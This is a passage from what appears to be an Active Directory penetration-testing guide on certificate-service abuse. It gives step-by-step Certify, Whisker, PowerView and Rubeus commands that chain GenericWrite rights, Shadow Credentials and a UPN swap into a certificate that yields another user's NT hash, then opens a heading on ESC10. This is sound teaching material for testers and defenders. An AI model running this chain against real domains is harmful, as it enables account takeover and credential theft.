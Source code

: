 {% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **user3** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a **user2** session.

```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```batch
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

### Weak certificate mapping (ESC10)

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).
